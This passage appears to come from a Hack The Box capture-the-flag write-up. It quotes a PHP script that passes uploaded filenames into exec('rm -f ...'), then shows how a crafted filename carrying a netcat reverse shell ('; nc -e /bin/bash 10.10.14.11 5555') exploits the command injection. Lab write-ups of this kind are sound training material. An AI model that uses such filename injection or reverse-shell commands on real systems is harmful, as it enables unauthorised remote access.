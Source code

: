 ```php
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
```

The above code looks for files in `/var/www/html/uploads/` then runs the `getnameCheck` function from `lib.php` against the filename. When the filename fails the check, a logfile `/tmp/attack.log` is created and `$msg` is written to the file. `$msg` is set to null in the code so nothing will ever get written to that log file. The code then deletes any file that is invalid using `exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`. This is where the command injection vulnerability lies.

The script uses the `exec()` function to pass the `/bin/rm` command instead of using of the native PHP function to delete files. The `$path` variable is set in the code and I can't control it but I can control the `$value` variable since it's the same of the invalid file in `/var/www/html/uploads/`. My goal here is to inject a command like the following: `nohup /bin/rm -f /var/www/html/uploads/; nc -e /bin/bash 10.10.14.11 5555 > /dev/null 2>&1 &`.

I would need to create a filename like `; nc -e /bin/bash 10.10.14.11 5555` but forward slashes are not valid in a filename so I will use `$(which bash)` instead to return the full path to bash.

![](/assets/images/htb-writeup-networked/escalate1.png)

A few moments later I get a shell as `guly` and I get the first flag:

![](/assets/images/htb-writeup-networked/escalate2.png)
